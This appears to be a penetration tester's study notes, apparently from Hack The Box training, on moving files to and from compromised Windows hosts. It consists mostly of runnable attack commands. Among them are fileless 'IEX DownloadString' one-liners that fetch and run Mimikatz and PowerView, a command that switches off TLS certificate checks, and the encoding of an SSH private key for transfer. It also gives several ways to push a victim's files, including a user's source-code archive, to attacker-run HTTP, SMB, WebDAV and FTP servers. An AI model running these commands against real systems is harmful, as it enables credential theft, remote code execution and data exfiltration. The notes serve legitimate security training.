 ## Downloads
#windows/file-transfer
[[File transfer common]]
#### Encoding - from linux to win
#encoding
```shell
cat id_rsa |base64 -w 0 > hash
```

[[powershell]]
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("hash"))
```
##### Encoding - from win to lin
```powershell
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

<hash>
PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash=

Hash
----
3688374325B992DEF12793500307566D
```

```shell
echo hash= | base64 -d > hosts
```

#### Powershell
|                                                                                                                          |                                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) |                                                                                                                            |
#### DownloadFile
```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object 
Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

##### Fileless method
```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

##### Invoke-WebRequest

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```


##### Errors

##### Internet Explorer first-launc

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

##### Certifcate not trusted

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### SMB
[[Pentest/services/SMB/SMB]]
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```cmd
C:\htb> copy \\192.168.220.133\share\nc.exe
```

#### SMB with auth
```shell
jabrach@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
C:\htb> net use n: \\192.168.220.133\share /user:test test
```

[[FTP]]
```shell
sudo pip3 install pyftpdlib

sudo python3 -m pyftpdlib --port 21
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

or create command file:
```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

## Uploads
#### Upload via server
```shell
pip3 install uploadserver

python3 -m uploadserver

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

##### Upload via base64
```powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
then catch with nc:
```shell
jabrach@htb[/htb]$ nc -lvnp 8000
```

#### SMB
[[Pentest/services/SMB/SMB]]
```shell
sudo pip3 install wsgidav cheroot

sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```cmd
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

```cmd
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

#### FTP
[[FTP]]
```shell
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```


